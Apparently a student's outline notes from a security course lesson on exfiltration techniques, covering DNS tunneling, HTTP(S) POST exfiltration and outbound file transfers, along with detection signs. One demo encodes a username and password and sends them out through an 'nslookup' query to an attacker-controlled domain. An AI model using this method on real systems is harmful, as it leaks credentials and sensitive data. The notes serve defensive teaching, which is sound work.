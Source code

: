 # 49. Explain Exfiltration Techniques

Trainer: Knox Hutchinson


## Introducing Attacker Exfiltration Techniques

- Learning goals
  - DNS tunneling exfiltration
  - HTTP exfiltration
  - file transfer
  - text-based protocols


## DNS Tunneling Exfiltration

- DNS exflitration overview
  - capturing with  Wireshark
  - pkt: src=10.10.21.16, dst=10.10.21.1, prot=DNS, info=Standard query 0xe4d1 A address
  - pkt: src=10.10.21.1, dst=10.10.21.16, prot=DNS, info=Standard query response 0xe4d1
    - L7: Domain Name System (response)
      - Queries: adservice.google.com: TYpe A, Class IN; Name = adservice.google.com
      - Answers
        - advervice.google.com: Type CNAME, class IN, cname pagedad46.l.doubleclick.net
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.154
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.155
        - ...
  - attacker
    - MitM attacks
    - malware in client to inset and send sensitive info
  - possible info exflitrated: username, password, file-shared locations, GPOs


- Demo: data exflitated by DNS queries
  - browsing https://www.base64encode.org: encode 'username=knox:password=cisco -> encode -> hex string abc
  - cmd: `nslookup abc.knoxsdata.com`
  - DNS query logged by attacker
  - decode the hex string abc back to username and password



## HTTP(S) Exfiltration

- HTTP(S) exfiltration overview
  - client able to access SQL DB
  - extract sensitive info from SQL DB, e.g., SELECT queries
  - convert the sensitive info into plan text, e.g., JSON, XML, etc.
  - using HTTP POST request to post the sensitive info to malicious web site
  - sign of data exfiltration: high volume of I/O, CPU utilization, or outbound data transmission


- Demo: HTTPS exfiltration
  - sensitive info embedded in encrypted payload
  - pkt: src=108.177.122.94, dst=10.10.21.16, prot=TLSv1.3, info=Application Data
    - L7: Transport Layer Security - TLSv1.3 Record Layer: Application Data PProtocol: http-over-tls
  - sign of exflitration: high volume of traffic w/ same src and dst



## Outbound File Transfers

- Outbound file transfer overview
  - email, ftp, etc. used to exfiltrate data
  - easiest way: sending data in nature
  - usually accessing shared files and database
  - malware in client
    - sending file to FTP, FTPS or SFTP servers
    - attaching file in emails
  - solution: AMP for endpoints, abnormal at NGFW


## Text-Based Protocols




## Recapping Exfiltration Techniques




